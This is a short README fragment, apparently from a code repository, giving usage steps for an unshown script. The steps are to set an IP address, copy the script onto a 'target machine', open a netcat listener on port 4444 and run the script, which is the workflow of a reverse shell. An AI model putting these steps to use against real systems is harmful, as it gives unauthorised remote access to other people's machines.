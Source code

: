 Installation/usage:
  modify line 6 to include your ip address
  get the script onto the target machine
  start a netcat instance  to listen using 
    nc -lnvp 4444
  run the script on the target machine
